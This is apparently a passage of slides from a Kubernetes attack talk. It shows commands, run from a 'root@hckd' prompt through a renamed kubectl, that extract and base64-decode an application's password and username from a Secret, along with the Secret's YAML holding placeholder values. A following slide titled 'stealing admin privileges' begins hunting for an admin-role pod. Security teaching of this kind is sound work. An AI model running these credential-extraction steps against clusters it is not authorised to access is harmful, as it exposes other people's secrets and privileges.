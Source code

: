 Let's decrypt it!

---

## Decrypt Secrets
### Success!
[.code: #25DDC6, #25DDC6, #ECAF3F, #25DDC6, #25DDC6]
[.code-highlight: all]
[.code-highlight: 5, 11]

[.column]
```coffeescript
root@hckd# khack-final get secret        \ 
      sensitive-app-secrets              \
      -o jsonpath='{.data.APP_PASSWORD}' \
      | base64 -d
target_password

root@hckd# khack-final get secret        \ 
      sensitive-app-secrets              \
      -o jsonpath='{.data.APP_USERNAME}' \
      | base64 -d
target_username
```
[.column]
[.code-highlight: none]
[.code-highlight: 6-11]
```yaml
apiVersion: v1
kind: Secret
metadata:
  name: sensitive-app-secrets
type: Opaque
data:
# echo -n "target_password" | base64
  APP_PASSWORD: dGFyZ2V0X3Bhc3N3b3Jk 
# echo -n "target_username" | base64
  APP_USERNAME: dGFyZ2V0X3VzZXJuYW1l
```

---
### Target 2
## stealing admin privileges
[.code-highlight: 1, 6]

```coffeescript
root@hckd# khack-final get pods -n kube-system
NAME                                   READY   STATUS
l7-default-backend-56cb9644f6-5vb84    1/1     Running 
metrics-server-v0.3.6-9c5bbf784-j4m2l  2/2     Running 
...
app-with-admin-role                    1/1     Running
...
pdcsi-node-zslg9                       2/2     Running
```

---